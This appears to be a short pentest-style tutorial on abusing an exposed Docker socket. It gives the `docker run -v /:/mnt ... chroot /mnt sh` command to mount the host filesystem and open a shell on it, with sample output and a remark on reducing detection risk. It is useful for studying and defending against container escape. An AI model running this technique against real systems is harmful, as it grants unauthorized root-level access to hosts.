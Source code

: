 
### **Exploring and Exploiting the Docker Socket**

#### **Step 1: Confirm Access to Docker Commands**
- To exploit the Docker socket, ensure you have appropriate permissions (either as root or as a member of the `docker` group).

#### **Step 2: Locate `docker.sock` in a Container**
- Verify the presence of the socket:
  ```bash
  ls -la /var/run | grep sock
  ```
  Example output:
  ```
  srw-rw---- 1 root docker 0 Dec 9 19:37 docker.sock
  ```

#### **Step 3: Exploit the Docker Socket**
The Docker socket allows privileged operations, such as creating new containers. By exploiting it, you can access the host filesystem.

##### **Command Breakdown**:
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

1. **Upload a Docker Image**:
   - Use a lightweight image like `alpine`. This ensures minimal size and reduces detection risk.

2. **Run the Container**:
   - Mount the host’s root filesystem (`/`) to `/mnt` in the container:
     ```bash
     docker run -v /:/mnt
     ```

3. **Interactive Mode**:
   - Run the container interactively with `-it`, allowing you to execute commands within it.

4. **Change the Root Directory**:
   - Use `chroot` to change the container’s root directory to `/mnt` (the mounted host filesystem):
     ```bash
     chroot /mnt
     ```

5. **Launch a Shell**:
   - Open a shell within the new root context to execute commands:
     ```bash
     sh
     ```

---

### **Verifying Success**

1. **Access the Host Filesystem**:
   - After executing the exploit, you’ll find yourself inside a new container.
   - Run `ls /` to list the contents of the host filesystem:
     ```bash
     root@alpine-container:~# ls /
     ```
     Example output:
     ```
     bin   dev  home  lib32  libx32      media  opt   root  sbin  srv       sys  usr
     boot  etc  lib   lib64  lost+found  mnt    proc  run   snap  swapfile  tmp  var
     ```
